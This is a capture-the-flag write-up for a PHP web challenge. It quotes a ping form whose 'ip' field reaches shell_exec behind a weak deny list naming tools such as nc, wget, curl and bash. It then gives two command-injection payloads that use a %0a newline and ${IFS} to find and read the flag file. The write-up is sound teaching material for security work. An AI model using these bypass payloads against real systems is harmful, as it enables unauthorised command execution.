



# Introduction
This is a Web Challange that has source code of php that we need to analyaze to get CI ( Command Injection )

## Challange Discription

Description

Author: onsra

Remote Access: Click Here!

Static resources: [Source_Code](../resources/Bing2/)

## Step1

When we go to source code we see a php code as follow:

```php
<?php

if (isset($_POST['Submit'])) {
	$target = trim($_REQUEST['ip']);

	$substitutions = array(
		' ' => '',
		'&'  => '',
		'&&' => '',
		'('  => '',
		')'  => '',
		'-'  => '',
		'`'  => '',
		'|' => '',
		'||' => '',
		'; ' => '',	
		'%' => '',
		'~' => '',
		'<' => '',
		'>' => '',
		'/ ' => '',
		'\\' => '',
		'ls' => '',
        'cat' => '',
        'less' => '',
        'tail' => '',
        'more' => '',
        'whoami' => '',
        'pwd' => '',
        'busybox' => '',
        'nc' => '',
        'exec' => '',
        'sh' => '',
        'bash' => '',
        'php' => '',
        'perl' => '',
        'python' => '',
        'ruby' => '',
        'java' => '',
        'javac' => '',
        'gcc' => '',
        'g++' => '',
        'make' => '',
        'cmake' => '',
        'nmap' => '',
        'wget' => '',
        'curl' => '',
        'scp' => '',
        'ssh' => '',
        'ftp' => '',
        'telnet' => '',
        'dig' => '',
        'nslookup' => '',
        'iptables' => '',
        'chmod' => '',
        'chown' => '',
        'chgrp' => '',
        'kill' => '',
        'killall' => '',
        'service' => '',
        'systemctl' => '',
        'sudo' => '',
        'su' => '',
        'flag' => '',
	);

	$target = str_replace(array_keys($substitutions), $substitutions, $target);

	if (stristr(php_uname('s'), 'Windows NT')) {
		$cmd = shell_exec('ping  ' . $target);
	} else {
		$cmd = shell_exec('ping  -c 4 ' . (string)$target);
        echo $cmd;
		
	}
}
```

As we see, the php code accepts a **POST** request with 2 parameters 

1 ) Submit                  
2 ) ip

Parameter **ip** is vulnerable to Command Injections since there is not good enough user input sanitization in place


## Step2

Sanitization bypass: since the php code almost got everything from us, it forgot to scape asscii characters that has meaninful impact like **LF** ( %0a )




So we use **%0a** to scape the sanitization and for spaces we use **${IFS}**

First we locat flag with following payload :

```bash
ip=8.8.8.8%0afind${IFS}/${IFS}name${IFS}fla*&Submit=Submit
```



Then we read flag with following payload :

```bash
ip=8.8.8.8%0ahead${IFS}/fla*&Submit=Submit
```


